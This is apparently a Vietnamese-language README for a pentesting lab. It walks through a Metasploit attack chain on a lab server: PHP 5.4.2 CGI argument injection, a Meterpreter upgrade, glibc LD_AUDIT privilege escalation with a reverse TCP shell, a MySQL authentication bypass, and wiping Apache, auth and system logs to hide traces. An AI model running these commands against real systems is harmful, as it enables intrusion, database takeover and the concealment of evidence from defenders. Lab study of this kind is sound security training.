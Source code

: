 # PHP 5.4 Vulnerability and Privilege Escalation Lab

Dự án này mô phỏng việc khai thác lỗ hổng trong PHP 5.4.2 để thực hiện leo thang đặc quyền sử dụng Metasploit và các công cụ pentesting khác. Lab bao gồm khai thác một máy chủ web dễ bị tấn công và leo thang đặc quyền từ tài khoản người dùng giới hạn lên quyền root.

### ***Mục lục***

[1. Lỗ hổng PHP là gì?](#1)

[2. Leo thang đặc quyền là gì?](#2)

[3.	Tại sao leo thang đặc quyền quan trọng trong tấn công?](#3)

[4. Chi tiết các bước trong Lab](#4)

- [4.1.	Quét máy chủ web](#4.1)

- [4.2.	Khai thác lỗ hổng PHP CGI ](#4.2)

- [4.3. Nâng cấp lên phiên Meterpreter ](#4.3)

- [4.4. Leo thang đặc quyền ](#4.3)

- [4.5. Truy cập cơ sở dữ liệu ](#4.3)

- [4.6. Xóa dấu vết ](#4.3)




<a name = '1'></a>
# 1.	Lỗ hổng PHP là gì?

**Lỗ hổng PHP** xuất hiện khi phiên bản PHP chứa các lỗi bảo mật có thể bị khai thác. **PHP 5.4.2** có lỗ hổng **PHP CGI Argument Injection**, cho phép kẻ tấn công thực thi mã từ xa mà không cần xác thực. Một số dạng lỗ hổng trong PHP bao gồm:
- **Remote Code Execution (RCE)**: Cho phép thực thi mã từ xa.
- **Local File Inclusion (LFI)**: Truy cập tệp tin trên máy chủ.
- **SQL Injection**: Tấn công cơ sở dữ liệu thông qua truy vấn SQL độc hại.

---


<a name = '2'></a>
# 2.	Leo thang đặc quyền là gì?

**Leo thang đặc quyền** là quá trình nâng quyền từ tài khoản người dùng bình thường lên tài khoản **quản trị** (root). Điều này cho phép kẻ tấn công có toàn quyền kiểm soát hệ thống:
- **Leo thang ngang**: Truy cập tài khoản người dùng khác.
- **Leo thang dọc**: Nâng quyền từ người dùng thường lên root.

---

<a name = '3'></a>
# 3.	Tại sao leo thang đặc quyền quan trọng trong tấn công

**Leo thang đặc quyền** giúp kẻ tấn công có thể:
- **Kiểm soát toàn bộ hệ thống**: Thay đổi, xóa dữ liệu hoặc cài đặt mã độc.
- **Duy trì quyền truy cập**: Thiết lập **backdoor** để duy trì quyền truy cập.
- **Tấn công sâu hơn**: Truy cập cơ sở dữ liệu và các thành phần khác.

---

<a name = '4'></a>
# 4.	Chi tiết các bước trong Lab

<a name = '4.1'></a>
## Bước 1: Quét máy chủ web
Sử dụng lệnh **Nmap** để xác định phiên bản PHP và phát hiện lỗ hổng.

```bash
nmap -p 80 --script=http-php-version 192.168.40.128
```

Kết quả: Quét phát hiện máy chủ web đang chạy **PHP 5.4.2**.

---

<a name = '4.2'></a>
## 4.2.	Khai thác lỗ hổng PHP CGI
1. Khởi động Metasploit và tìm kiếm lỗ hổng:
   ```bash
   msf6 > search php cgi
   ```

2. Chọn và cấu hình khai thác:
   ```bash
   use exploit/unix/webapp/php_cgi_arg_injection
   ```

3. Đặt IP của máy chủ web mục tiêu:
   ```bash
   set rhosts 192.168.40.128
   ```

4. Chạy khai thác để có quyền truy cập shell:
   ```bash
   run
   ```

Kết quả: Đã truy cập thành công với quyền **www-data**.

---

<a name = '4.3'></a>
## 4.3.	Nâng cấp lên phiên Meterpreter
1. Kiểm tra các phiên hoạt động:
   ```bash
   sessions
   ```

2. Nâng cấp lên phiên Meterpreter:
   ```bash
   session -u [session_id]
   ```

3. Tương tác với phiên Meterpreter:
   ```bash
   sessions -i [session_id]
   ```

Kết quả: Nâng cấp thành công lên Meterpreter.

---

<a name = '4.4'></a>
## 4.3. Leo thang đặc quyền

Sử dụng **Metasploit's Local Exploit Suggester** để tìm cách leo thang đặc quyền.

1. Dùng module **local exploit suggester**:
   ```bash
   use post/multi/recon/local_exploit_suggester
   ```

2. Chạy module để tìm khai thác khả thi:
   ```bash
   run
   ```

3. Khai thác lỗ hổng **glibc_ld_audit_dso_load_priv_esc**:
   ```bash
   use exploit/linux/local/glibc_ld_audit_dso_load_priv_esc
   ```

4. Đặt các tùy chọn cần thiết:
   ```bash
   set session [session_id]
   set LHOST [địa_chỉ_ip_của_bạn]
   set PAYLOAD linux/x64/shell/reverse_tcp
   ```

5. Chạy khai thác:
   ```bash
   run
   ```

Kết quả: Đã leo thang thành công lên **root**.

---

<a name = '4.5'></a>
## 4.3.	Truy cập cơ sở dữ liệu

1. Dừng dịch vụ MySQL:
   ```bash
   /etc/init.d/mysql stop
   ```

2. Khởi động MySQL mà không yêu cầu mật khẩu:
   ```bash
   mysqld_safe --skip-grant-tables &
   ```

3. Truy cập cơ sở dữ liệu qua **phpMyAdmin** hoặc dòng lệnh.

4. Thay đổi mật khẩu hoặc thêm người dùng mới trong cơ sở dữ liệu.

---
<a name = '4.6'></a>
## 4.3.	Xóa dấu vết

Để xóa dấu vết sau khi khai thác, cần xóa log hệ thống và log web server.

1. Xóa log Apache hoặc Nginx:
   ```bash
   echo > /var/log/apache2/access.log
   echo > /var/log/apache2/error.log
   ```

2. Xóa log hệ thống:
   ```bash
   echo > /var/log/auth.log
   echo > /var/log/syslog
   ```

3. Xóa log của Metasploit:
   ```bash
   rm -rf ~/.msf4/logs/
   ```

Kết quả: Các file log đã bị xóa.

---



